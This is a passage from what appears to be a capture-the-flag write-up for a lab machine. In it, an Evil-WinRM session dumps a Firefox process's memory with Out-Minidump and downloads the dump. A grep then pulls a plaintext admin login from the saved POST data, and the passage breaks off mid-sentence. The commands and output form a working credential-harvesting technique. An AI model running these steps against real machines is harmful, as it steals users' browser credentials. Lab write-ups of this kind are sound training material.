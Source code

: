      __    __  ____  ____   ____   ___ ___
    |  |__|  ||    ||    \ |    \ |   |   |
    |  |  |  | |  | |  _  ||  D  )| _   _ |
    |  |  |  | |  | |  |  ||    / |  \_/  |
    |  `  '  | |  | |  |  ||    \ |   |   |
     \      /  |  | |  |  ||  .  \|   |   |
      \_/\_/  |____||__|__||__|\_||___|___|
    
    
                               By: CyberVaca@HackPlayers
    
    [+] Invoke-Binary
    [+] l04d3r-LoadDll
    [+] Out-Minidump
    
    *Evil-WinRM* PS C:\users\chase\appdata\local\temp> get-process -id 6252 | Out-Minidump
    
    
        Directory: C:\users\chase\appdata\local\temp
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        8/23/2019  11:09 PM      286666409 firefox_6252.dmp
    

Now I’ll download the dump:

    
    
    *Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_190823_025430.dmp
    Info: Downloading firefox.exe_190823_025430.dmp to firefox.exe_190823_025430.dmp
    
    
    Info: Download successful!
    

Now I’ll look for any POST requests in memory using `grep` and the format I
found above:

    
    
    root@kali# grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,50}&login=' firefox.exe_190823_025430.dmp 
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    

The options on `grep` are:

  * `-a` \- Process a binary file as if it were text.
  * `-o` \- Print only the matched (non-empty) parts of a matching line
  * `-E` \- Interpret PATTERNS as extended regular expressions

I’ll use a regex where I look for a basic email address as the
`login_username`, and a 1-50 character password.

I’ve got a password there. I can check, and it does match the hash from the
source code:
